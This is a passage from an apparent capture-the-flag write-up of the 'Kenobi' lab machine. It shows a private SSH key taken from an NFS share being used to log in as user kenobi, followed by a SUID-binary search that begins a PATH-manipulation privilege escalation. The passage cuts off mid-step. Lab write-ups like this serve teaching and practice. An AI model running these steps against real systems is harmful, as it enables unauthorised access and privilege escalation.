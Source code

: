         drwxr-xr-x  3 root root    4096 Jan 11 02:38 ..
        drwxr-xr-x  2 root root    4096 Sep  4  2019 backups
        drwxr-xr-x  9 root root    4096 Sep  4  2019 cache
        drwxrwxrwt  2 root root    4096 Sep  4  2019 crash
        drwxr-xr-x 40 root root    4096 Sep  4  2019 lib
        drwxrwsr-x  2 root staff   4096 Apr 12  2016 local
        lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock
        drwxrwxr-x 10 root crontab 4096 Sep  4  2019 log
        drwxrwsr-x  2 root mail    4096 Feb 26  2019 mail
        drwxr-xr-x  2 root root    4096 Feb 26  2019 opt
        lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run
        drwxr-xr-x  2 root root    4096 Jan 29  2019 snap
        drwxr-xr-x  5 root root    4096 Sep  4  2019 spool
        drwxrwxrwt  6 root root    4096 Jan 11 02:38 tmp
        drwxr-xr-x  3 root root    4096 Sep  4  2019 www
        ```
    - Login to Kenobi's account using the private key.
        ```bash
        $ cp /mnt/kenobiNFS/tmp/id_rsa . 
        $ sudo chmod 600 id_rsa                       
        $ ssh -i id_rsa kenobi@10.10.102.164
        The authenticity of host '10.10.102.164 (10.10.102.164)' can't be established.
        ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
        Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
        Warning: Permanently added '10.10.102.164' (ECDSA) to the list of known hosts.
        Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

        * Documentation:  https://help.ubuntu.com
        * Management:     https://landscape.canonical.com
        * Support:        https://ubuntu.com/advantage

        103 packages can be updated.
        65 updates are security updates.


        Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
        To run a command as administrator (user "root"), use "sudo <command>".
        See "man sudo_root" for details.

        kenobi@kenobi:~$ cat user.txt 
        REDACTED
        ```

## Privilege Escalation with Path Variable Manipulation
- What file looks particularly out of the ordinary? 
    ```bash
    kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
    ...
    /usr/bin/passwd
    /usr/bin/newuidmap
    /usr/bin/gpasswd
    /usr/bin/menu
    ...
    ```
- Run the binary, how many options appear?
    ```bash
    kenobi@kenobi:~$ menu
